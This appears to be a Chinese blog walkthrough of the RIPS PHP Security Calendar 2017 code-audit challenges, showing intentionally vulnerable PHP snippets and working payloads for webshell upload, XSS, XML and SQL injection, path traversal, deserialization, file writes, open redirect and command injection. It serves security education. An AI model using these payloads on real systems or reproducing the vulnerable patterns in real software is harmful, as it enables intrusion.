




RIPS 2017 PHP代码审计安全挑战
前言 题目原地址： PHP Security Advent Calendar 2017 - https://www.ripstech.com/php-security-calendar-2017/
RIPSTECH PRESENTS PHP SECURITY CALENDAR 是由 RIPS 团队出品的PHP代码安全审计挑战系列题目，RIPSTECH PRESENTS PHP SECURITY CALENDAR 2017 共包含24道题目（Day 1 ~ 24），每道题目将包含一个较新颖的知识点供大家学习。
实验环境源码：https://github.com/vulnspy/ripstech-php-security-calendar-2017
参考题解：http://www.vulnspy.com/cn-ripstech-presents-php-security-calendar-2017/
Day01 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 <?php class Challenge const UPLOAD_DIRECTORY = './solutions/' ; private $file; private $whitelist; public function __construct ($file) $this ->file = $file; $this ->whitelist = range(1 , 24 ); } public function __destruct () if (in_array($this ->file['name' ], $this ->whitelist)) { move_uploaded_file( $this ->file['tmp_name' ], self ::UPLOAD_DIRECTORY . $this ->file['name' ] ); } } } $challenge = new Challenge($_FILES['solution' ]); show_source(__FILE__ );
代码大致流程是构建了一个Challenge类，类中定义一个常量UPLOAD_DIRECTORY，用于定义上传文件存储的具体位置，并定义了两个魔术方法：
1 2 3 __construct() - 在每次创建新对象时先调用此方法 __destruct() - 对象的所有引用都被删除或者当对象被显式销毁时执行
__construct方法中对类中两个私有变量进行赋值，__destruct方法对上传的文件名进行了检查操作，检查文件名是否为整数，范围为1-24，问题就出在这个in_array 方法，我们知道in_array 方法的第三个参数默认是false ，因此会进行弱类型比较，即将上传的文件名自动转化为整形与整数1-24进行比较。这就导致我们可以将恶意文件上传至服务器，只要文件名为数字1-24开头的文件，都可以上传至服务器。
新创建一个测试文件demo1.php，代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 <!DOCTYPE html> <html> <head> <title>demo1</title> </head> <body> <form method="post" action="" enctype="multipart/form-data"> <input type="file" name="solution"> <input type="submit" name="submit"> </form> <?php class Challenge { const UPLOAD_DIRECTORY = 'E:/php/PHPTutorial/WWW/html/solutions/'; private $file; private $whitelist; public function __construct($file) { $this->file = $file; $this->whitelist = range(1, 24); } public function __destruct() { if (in_array($this->file['name'], $this->whitelist)) { echo $this->file['tmp_name']; move_uploaded_file( $this->file['tmp_name'], self::UPLOAD_DIRECTORY . $this->file['name'] ); } else echo "fail to upload."; } } $challenge = new Challenge($_FILES['solution']); ?> </body> </html>
上传文件名1demo.php的一句话木马文件

成功上传
本关漏洞主要就在于in_array 方法的第三个参数未设置，如果设置为true，则会检查搜索的数据与数组的值的类型是否相同，所以修正该漏洞的方法就是将第三个参数设置为true，如下：
1 in_array($this ->file['name' ], $this ->whitelist,true )
修改以后再尝试1demo.php文件，上传失败

Day02 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 <?php require 'vendor/autoload.php' ;class Template private $twig; public function __construct () $indexTemplate = '<img ' . 'src="https://loremflickr.com/320/240">' . '<a href="{{link|escape}}">Next slide »</a>' ; $loader = new Twig\Loader\ArrayLoader([ 'index.html' => $indexTemplate ]); $this ->twig = new Twig\Environment($loader); } public function getNexSlideUrl () $nextSlide = $_GET['nextSlide' ]; return filter_var($nextSlide, FILTER_VALIDATE_URL); } public function render () echo $this ->twig->render( 'index.html' , ['link' => $this ->getNexSlideUrl()] ); } } (new Template())->render(); show_source(__FILE__ );
这关涉及了PHP的Twig模板语言，起到了渲染的作用。我们不需要过多的关注这个模板，我们需要关注的是我们可以控制的变量是$nextSlide，这个变量经过了一个函数filter_var 的处理，这个函数的作用是根据指定过滤器的ID号对传入的参数进行过滤，这里过滤器ID号为FILTER_VALIDATE_URL ，所以整个函数的作用是检查变量$nextSlide是否是一个合法的URL，我们可以写一个测试文件测试一下具体的检测流程：
1 2 3 4 5 6 7 8 9 10 11 12 <?php var_dump(filter_var("http://www.baidu.com" ,FILTER_VALIDATE_URL)); var_dump(filter_var("www.baidu.com" ,FILTER_VALIDATE_URL)); var_dump(filter_var("123://www.baidu.com" ,FILTER_VALIDATE_URL)); var_dump(filter_var("123://123.com" ,FILTER_VALIDATE_URL)); var_dump(filter_var("123://123" ,FILTER_VALIDATE_URL)); var_dump(filter_var("123:/123" ,FILTER_VALIDATE_URL)); var_dump(filter_var("123://" ,FILTER_VALIDATE_URL)); var_dump(filter_var("1://1" ,FILTER_VALIDATE_URL)); ?>
经过测试发现具体只是检测变量中是否存在“://“
过滤的URL再经过Twig的escape 过滤后再渲染，查阅Twig的官方文档
1 Internally, ``escape`` uses the PHP native `htmlspecialchars`_ function for the HTML escaping strategy.
escape的过滤规则和htmlspecialchars 函数过滤规则相同，会将单引号和双引号进行编码
经过这两个过滤后的URL会在页面中显示，见第9-11行：
1 2 3 $indexTemplate = '<img ' . 'src="https://loremflickr.com/320/240">' . '<a href="{{link|escape}}">Next slide »</a>' ;
那么这关就存在XSS 漏洞，我们知道在javascript中“//“ 是表示注释，“%250a”和”%0a” 在浏览器中表示换行，那么我们就可以构造一下payload：
1 ?nextSlide=javascript://comment%250aalert(/xss/)
因为“//“ 表示注释，所以comment 被注释，换行后执行alert(/xss/) ，即执行：
1 2 javascript://comment alert(/xss/)
执行效果如下图所示

成功进行XSS注入攻击
Day03 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 <?php function __autoload ($className) include $className; } $controllerName = $_GET['c' ]; $data = $_GET['d' ]; if (class_exists($controllerName)) { $controller = new $controllerName($data['t' ], $data['v' ]); $controller->render(); } else { echo 'There is no page with this name' ; } class HomeController private $template; private $variables; public function __construct ($template, $variables) $this ->template = $template; $this ->variables = $variables; } public function render () if ($this ->variables['new' ]) { echo 'controller rendering new response' ; } else { echo 'controller rendering old response' ; } } } show_source(__FILE__ );
这关涉及到了PHP的魔术方法__autoload ，用于自动加载类，当一个类被实例化时，会自动调用该方法，方法中使用include 进行调用实例化类的文件，常用于节约include 方法的使用。
当然，还有许多函数方法被调用时也会自动调用__autoload 方法，如第9行中的class_exists 方法，它用来判断类名是否存在，除此之外还有以下方法也会自动调用__autoload 方法：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 call_user_func() call_user_func_array() class_exists() class_implements() class_parents() class_uses() get_class_methods() get_class_vars() get_parent_class() interface_exists() is_a() is_callable() is_subclass_of() method_exists() property_exists() spl_autoload_call() trait_exists()
仔细观察class_exists() 方法传入的参数是通过GET方式传入，可控，传入的参数即调用的文件名，这就造成了任意文件包含 漏洞
输入?c=./demo2.php

Day04 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php class Login public function __construct ($user, $pass) $this ->loginViaXml($user, $pass); } public function loginViaXml ($user, $pass) if ( $user != false && $pass != false && (!strpos($user, '<' ) || !strpos($user, '>' )) && (!strpos($pass, '<' ) || !strpos($pass, '>' )) ) { $format = '<?xml version="1.0"?>' . '<user v="%s"/><pass v="%s"/>' ; $xml = sprintf($format, $user, $pass); $xmlElement = new SimpleXMLElement($xml); $this ->login($xmlElement); } } } new Login($_POST['username' ], $_POST['password' ]);show_source(__FILE__ );
这题目的是为了进行XML注入，对于<?xml version="1.0"?><user v="%s"/><pass v="%s"/>就必须要进行闭合标签的处理，而条件(!strpos($user, '<') || !strpos($user, '>')) &&(!strpos($pass, '<') || !strpos($pass, '>'))本意是不允许我们对变量$user和变量$pass同时输入<>，但是我们知道strpos 函数搜索不到目标时返回的是false ，当找到目标在第一位时返回的是0 ，根据PHP弱类型比较，0 和false 是相等的
1 2 3 var_dump(strpos("abcd" ,"a" )); var_dump(strpos("abcd" ,"x" )); var_dump(0 ==false );
所以我们传入的$user和$pass第一位是<或者>即可绕过过滤，payload如下：
1 username=<"><injected-tag%20property="&password=<"><injected-tag%20property="
最终传入$this->login($xmlElement)的$xmlElement值是<xml><user="<"><injected-tag property=""/><pass="<"><injected-tag property=""/></xml> 就可以注入了
Day06 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 <?php class TokenStorage public function performAction ($action, $data) switch ($action) { case 'create' : $this ->createToken($data); break ; case 'delete' : $this ->clearToken($data); break ; default : echo 'Unknown action' ; } } public function createToken ($seed) $token = md5($seed); file_put_contents('/tmp/tokens/' . $token, '...data' ); } public function clearToken ($token) $file = preg_replace("/[^a-z.-_]/" , "" , $token); unlink('./tmp/tokens/' . $file); } } $storage = new TokenStorage(); $storage->performAction($_GET['action' ], $_GET['data' ]); show_source(__FILE__ );
这题可以利用的函数有file_put_contents 和unlink ，但是file_put_contents函数的参数$token经过md5加密，不好利用，在观察unlink函数，参数$token经过preg_replace 函数进行正则匹配过滤，过滤的规则是"/[^a-z.-_]/"，本意应该是除了a-z 和 . 和 - 和 _的字符都被替换为空，但是这里的-是没有被转义的，在[]中-是表示范围的意思，所以这里过滤的应该是除了ascii46-95 , 97-122的字符。也就是说.和/字符都不会被过滤，那么我们就可以利用路径穿越进行任意文件删除
payload如下：
1 ?action=delete&data=../../demo2.php
Day07 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 <?php function getUser ($id) global $config, $db; if ($id == false ){ return ; } if (!is_resource($db)) { $db = new MySQLi( $config['dbhost' ], $config['dbuser' ], $config['dbpass' ], $config['dbname' ] ); } $sql = "SELECT username FROM users WHERE id = ?" ; $stmt = $db->prepare($sql); $stmt->bind_param('i' , $id); $stmt->bind_result($name); $stmt->execute(); $stmt->fetch(); return $name; } $var = parse_url($_SERVER['HTTP_REFERER' ]); parse_str($var['query' ]); $currentUser = getUser($id); echo '<h1>' .htmlspecialchars($currentUser).'</h1>' ;show_source(__FILE__ );
这关考察的通过parse_url 和parse_str 函数导致的变量覆盖
1 2 3 $var = parse_url("https://127.0.0.1/?a=1&b=2" ); print_r($var); parse_str($var['query' ]);
parse_url中的参数来自HTTP请求头部的Referer字段，是可控的，那么我们就可以控制getUser 类中的$config和$db来在我们自己构造的数据库中进行查询
payload如下：
1 http://127.0.0.1/html/day7.php?config[dbhost]=127.0.0.1&config[dbuser]=root&config[dbpass]=root&config[dbname]=security&id=1
Day08 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php if (!isset ($_GET) || $_GET == false ){ show_source(__FILE__ ); exit ; } function complexStrtolower ($regex, $value) return preg_replace( '/(' . $regex . ')/ei' , 'strtolower("\\1")' , $value ); } foreach ($_GET as $regex => $value) { echo complexStrtolower($regex, $value) . "\n" ; }
考察的是preg_replace/e 函数导致的命令执行 漏洞，我之前的文章（代码审计-通过preg_replace函数深入命令执行 ）有详细写到过这题
主要思路就是通过GET方式传入的变量名作为正则匹配条件，将匹配的值value传递到strtolower函数中进行命令执行，"\\1"即为第一个匹配到的字符串。
Payload如下：
\S代表除空白符以外的所有字符，控制$value所有字符都会被匹配到，{${phpinfo()}}则涉及到PHP双引号下的变量会被解析和PHP可变变量
Day09 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?php class LanguageManager public function loadLanguage () { $lang = $this ->getBrowserLanguage(); $sanitizedLang = $this ->sanitizeLanguage($lang); if (file_exists("./lang/$sanitizedLang" )){ require_once ("./lang/$sanitizedLang" ); } } private function getBrowserLanguage () { $lang = isset ($_SERVER['HTTP_ACCEPT_LANGUAGE' ]) ? $_SERVER['HTTP_ACCEPT_LANGUAGE' ] :'en' ; return $lang; } private function sanitizeLanguage ($language) { return str_replace('../' , '' , $language); } } $manage = new LanguageManager(); $manage->loadLanguage(); show_source(__FILE__ );
考察的是任意文件包含 漏洞，参数$_SERVER['HTTP_ACCEPT_LANGUAGE']可控，过滤函数str_replace 只对../做一次过滤，双写即可绕过，Payload如下：
1 Accept-Language: ..././..././demo.txt
Day10 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <?php if (!isset ($_POST) || $_POST == false ){ show_source(__FILE__ ); exit ; } extract($_POST); function goAway () error_log("Hacking attempt." ); header('Location: /error/' ); } if (!isset ($pi) || !is_numeric($pi)) { goAway(); } if (!assert("(int)$pi == 3" )) { echo "This is not pi." ; } else { echo "This might be pi." ; }
虽然看到了extract ，但是这题考察的不是变量覆盖，我们可以看到goAway()函数中header重定向后并未使用die或者exit，这就导致了后面的代码依然会执行，所以我们直接POST变量pi=phpinfo，就会执行assert("(int)phpinfo() == 3")，在burp中能phpinfo的信息
Day11 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 <?php class Template public $cacheFile = '/tmp/cachefile' ; public $template = '<div>Welcome back %s</div>' ; public function __construct ($data = null) $data = $this ->loadData($data); $this ->render($data); } public function loadData ($data) if (substr($data, 0 , 2 ) !== 'O:' && !preg_match('/O:\d:/' , $data)) { return unserialize($data); } return []; } public function createCache ($file = null, $tpl = null) $file = $file ?? $this ->cacheFile; $tpl = $tpl ?? $this ->template; file_put_contents($file, $tpl); } public function render ($data) echo sprintf( $this ->template, htmlspecialchars($data['name' ]) ); } public function __destruct () $this ->createCache(); } } new Template($_COOKIE['data' ]);show_source(__FILE__ );
本题的正则表达式应修改为'/O:\d:/'
看到unserialize 就知道这题考察的是反序列化 ，对COOKIE中的变量data 做了两个过滤处理
1 2 substr($data, 0, 2) !== 'O:' !preg_match('/O:\d:/', $data)
php可反序列化类型有String,Integer,Boolean,Null,Array,Object。去除掉Object后，考虑采用数组中存储对象进行绕过。
第二个正则匹配过滤，就需要利用到PHP反处理的源码，具体参考php反序列unserialize的一个小特性 ，在对象前加一个+号，即O:14->O:+14，这样就可以绕过正则匹配。
获取序列化字符串的代码如下：
1 2 3 4 5 6 7 class Template public $cacheFile = './info.php' ; public $template = '<?php phpinfo();' ; } $temp[] = new Template(); $temp = serialize($temp); echo $temp;
获取payload如下：
1 a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:10:"./info.php";s:8:"template";s:16:"<?php phpinfo();";}}
这样，就可以利用file_put_contents函数将PHP代码写入一个PHP文件中
Day12 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php $sanitized = []; foreach ($_GET as $key => $value) { $sanitized[$key] = intval($value); } $queryParts = array_map(function ($key, $value) return $key . '=' . $value; }, array_keys($sanitized), array_values($sanitized)); $query = implode('&' , $queryParts); echo "<a href='/images/size.php?" . htmlentities($query) . "'>link</a>" ; show_source(__FILE__ );
看到结尾的响应标签内容就猜到这题考察的可能是XSS ，这里过滤的点有两个函数：（1）intval（2）htmlentities
intval 函数虽然过滤了$value，但是未过滤$key，我们通过$key进行XSS即可
htmlentities 函数作用是将字符串转化为HTML实体，但是默认不对单引号进行转义，所以我们可以构造一下Payload：
1 ?'onclick%3dalert('xss')//=1
利用的是a标签的onclick事件来进行XSS攻击
闭合后的标签为：
1 "<a href='/images/size.php?'onclick=alert('xss')//=1'>link</a>"
Day13 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 <?php require_once "bootstrap.php" ;if ($_POST == false ){ show_source(__FILE__ ); exit ; } class LoginManager private $em; private $user; private $password; public function __construct ($user, $password) $this ->em = DoctrineManager::getEntityManager(); $this ->user = $user; $this ->password = $password; } public function isValid () $user = $this ->sanitizeInput($this ->user); $pass = $this ->sanitizeInput($this ->password); $queryBuilder = $this ->em->createQueryBuilder() ->select('COUNT(u)' ) ->from("User" , "u" ) ->where("u.user = '$user' AND u.password = '$pass'" ); $query = $queryBuilder->getQuery(); return boolval($query->getSingleScalarResult()); } public function sanitizeInput ($input, $length = 20 ) $input = addslashes($input); if (strlen($input) > $length) { $input = substr($input, 0 , $length); } return $input; } } $auth = new LoginManager($_POST['user' ], $_POST['passwd' ]); if (!$auth->isValid()) { exit ; } echo 'Hello, ' .$_POST['user' ];
看到关键字user和passwd和SQL语句就很明白，这题考察的是通过SQL注入进行任意用户登录
过滤的地方在于sanitizeInput 函数：
1 2 3 4 5 6 7 public function sanitizeInput ($input, $length = 20 ) $input = addslashes($input); if (strlen($input) > $length) { $input = substr($input, 0 , $length); } return $input; }
首先对我们输入的用户名和密码值通过addslashes 函数进行了转义 处理，然后经过substr 函数截断前20 位。因为有转义，我们如果输入反斜杠\，经过转义后会变成\\，这样就不能过滤掉SQL语句中的单引号。但是，设想一下，如果我们输入的字符足够长，并且第二十位放置的是单引号'或者反斜杠\，那么经过转义和截断，最后一位就一定会是一个反斜杠\，这就过滤了SQL语句中的单引号，造成SQL注入
Payload：
1 ?user=1234567890123456789'&passwd= or 1=1#
这样构成的SQL语句便是：
1 SELECT COUNT(u) FROM User u WHERE u.user = '1234567890123456789\' AND u.password = ' or 1=1#'
Day14 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <?php class Carrot const EXTERNAL_DIRECTORY = '/tmp/' ; private $id; private $lost = 0 ; private $bought = 0 ; public function __construct ($input) $this ->id = rand(1 , 1000 ); foreach ($input as $field => $count) { $this ->$field = $count++; } } public function __destruct () file_put_contents( self ::EXTERNAL_DIRECTORY . $this ->id, var_export(get_object_vars($this ), true ) ); } } $carrot = new Carrot($_GET); show_source(__FILE__ );
看到file_put_contents 函数，猜测考察写入webshell ，foreach函数存在变量覆盖：
1 2 3 foreach ($input as $field => $count) { $this->$field = $count++; }
$this->$field = $count++;中的++是后增，不会影响，所以我们可以通过此函数覆盖变量$id ，控制写入的文件名和位置：id=../../var/www/html/info.php
再观察写入的内容，经过两个函数get_object_vars 和var_export 的处理，先看看这两个函数的作用：
1 2 get_object_vars — 返回由对象属性组成的关联数组 var_export — 输出或返回一个变量的字符串表示
var_export与var_dump区别在于var_export输出的是合法的PHP代码，那么我们就可以写入合法的PHP代码
最终的Payload如下：
1 ?id=../../var/www/html/info.php&a=<?php phpinfo(); ?>
最终写入的内容是：
1 2 3 4 5 6 array ( 'id' => '../../var/www/html/test/shell.php', 'lost' => 0, 'bought' => 0, 'a' => '<?php phpinfo()?>' )
Day15 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 <?php class Redirect private $websiteHost = 'www.vulnspy.com' ; private function setHeaders ($url) $url = urldecode($url); header("Location: $url" ); } public function startRedirect ($params) $parts = explode('/' , $_SERVER['PHP_SELF' ]); print_r($parts); $baseFile = end($parts); echo '$baseFile = ' .$baseFile."<br>" ; $url = sprintf( "%s?%s" , $baseFile, http_build_query($params) ); echo '$url = ' .$url."<br>" ; $this ->setHeaders($url); } } if ($_GET['redirect' ]) { (new Redirect())->startRedirect($_GET['params' ]); } show_source(__FILE__ );
这题考察的是任意路径跳转 ，跳转的路径来源于$_SERVER['PHP_SELF']，这个全局变量含义是当前执行脚本在服务器下的路径，再通过explode函数将路径以/为分隔符分隔成一个数组，通过end函数将数组最后一个元素取出拼接上参数$params，再经过urldecode函数进行一次URL解码后作为重定向的url
假想我们要跳转到百度页面，访问http://127.0.0.1/html/day15.php/https://www.baidu.com?redirect=1，那么经过处理后的跳转的应该是Location: www.baidu.com，还是站内页面。我们要跳转到站外，就必须要加上http，所以，我们就可以利用题目中的一次URL解码加上本身浏览器对GET就有一次URL解码，对//进行二次URL编码 ，编码后为%25%32%66%25%32%66，那么payload就为：
1 http://127.0.0.1/html/day15.php/https:%25%32%66%25%32%66www.baidu.com?redirect=1
最后跳转的为：
1 Location: https://www.baidu.com?
就成功跳转到百度页面
Day16 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 <?php class FTP public $sock; public function __construct ($host, $port, $user, $pass) $this ->sock = fsockopen($host, $port); $this ->login($user, $pass); $this ->cleanInput(); $this ->mode($_REQUEST['mode' ]); $this ->send($_FILES['file' ]); } private function cleanInput () $_GET = array_map('intval' , $_GET); $_POST = array_map('intval' , $_POST); $_COOKIE = array_map('intval' , $_COOKIE); } public function login ($username, $password) fwrite($this ->sock, "USER " . $username . "\n" ); fwrite($this ->sock, "PASS " . $password . "\n" ); } public function mode ($mode) if ($mode == 1 || $mode == 2 || $mode == 3 ) { fputs($this ->sock, "MODE $mode\n" ); } } public function send ($data) fputs($this ->sock, $data); } } new FTP('localhost' , 21 , 'user' , 'password' );show_source(__FILE__ );
这题的漏洞在于$this->mode($_REQUEST['mode']);和==
首先，我们知道全局变量$_REQUEST[]是取值于$_GET，$_POST和$_COOKIE，即当三个全局变量一旦有赋值，$_REQUEST就被赋值，后面值不会再因为它们三个全局变量改变而改变，举个例子：
1 2 3 $_GET = array_map('intval',$_GET); var_dump($_GET); var_dump($_REQUEST);
最后输出的是：
1 2 array(1) { ["a"]=> int(1) } array(1) { ["a"]=> string(4) "1abc" }
第二，==在PHP中是弱类型比较 ，即1 == '1a'，所以最后的payload为：
1 ?mode=1%0a%0dDELETE%20test.file
就可以利用ftp协议来删除文件了
Day17 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 <?php require_once "bootstrap.php" ;if ($_POST == false ){ show_source(__FILE__ ); exit ; } class RealSecureLoginManager private $em; private $user; private $password; public function __construct ($user, $password) $this ->em = DoctrineManager::getEntityManager(); $this ->user = $user; $this ->password = $password; } public function isValid () $pass = md5($this ->password, true ); $user = $this ->sanitizeInput($this ->user); $queryBuilder = $this ->em->createQueryBuilder() ->select("COUNT(u)" ) ->from("User" , "u" ) ->where("u.password = '$pass' AND u.user = '$user'" ); $query = $queryBuilder->getQuery(); return boolval($query->getSingleScalarResult()); } public function sanitizeInput ($input) return addslashes($input); } } $auth = new RealSecureLoginManager( $_POST['user' ], $_POST['passwd' ] ); if (!$auth->isValid()) { exit ; } echo 'Hello, ' .$_POST['user' ];
这题看起来是Day13的升级版，那题我们是利用addslashes 和字符串截断进行\逃逸，从而进行SQL注入。这题对$pass进行了md5加密，但这里我们注意到md5函数中加入了参数true ，我们可以测试一下：
1 2 var_dump(md5(1 )); var_dump(md5(1 ,true ));
输出的是：
1 2 string(32) "c4ca4238a0b923820dcc509a6f75849b" string(16) "��B8��#� �P�ou��"
看出加入true参数后与原来输出是有区别的，那么我们可以进行fuzz 测试，看看有没有md5处理后最后一个字符为\
测试代码如下：
1 2 3 4 5 6 7 for ($i=1 ;$i++;){ $key = md5($i,true ); if (substr($key,strlen($key)-1 ,1 ) == '\\' ){ echo '$i = ' .$i.' $key = ' .$key; break ; } }
结果为：
1 $i = 128 $key = v�a�n���l���q��\
所以我们就可以构造payload：
从而进行SQL注入
Day18 1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php class JWT public function verifyToken ($data, $signature) $pub = openssl_pkey_get_public("file://pub_key.pem" ); $signature = base64_decode($signature); if (openssl_verify($data, $signature, $pub)) { $object = json_decode(base64_decode($data)); $this ->loginAsUser($object); } } } (new JWT())->verifyToken($_GET['d' ], $_GET['s' ]); show_source(__FILE__ );
这题没怎么看懂，大致是利用openssl_verify遇到错误时会返回-1，而if语句只有判断为0和false才不会执行。
Day19 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 <?php class ImageViewer private $file; function __construct ($file) $this ->file = "images/$file" ; $this ->createThumbnail(); } function createThumbnail () $e = stripcslashes( preg_replace( '/[^0-9\\\]/' , '' , isset ($_GET['size' ]) ? $_GET['size' ] : '25' ) ); system("/usr/bin/convert {$this->file} --resize $e ./thumbs/{$this->file}" ); } function __toString () return "<a href={$this->file}> <img src=./thumbs/{$this->file}></a>" ; } } echo (new ImageViewer("image.png" ));show_source(__FILE__ );
这题关键在于stripcslashes函数，它能返回反转义后的字符串。可识别类似 C 语言的 \n ，\r ，… 八进制以及十六进制的描述。
而下面的正则匹配过滤过滤掉除了0-9和反斜杠\，所以我们可以将我们要执行的命令转化为八进制，这样就可以构成任意命令执行的漏洞
例如执行sleep命令，将0;sleep 5;转化为八进制为0\073\163\154\145\145\160\0405\073
payload：
1 ?size=0\073\163\154\145\145\160\0405\073
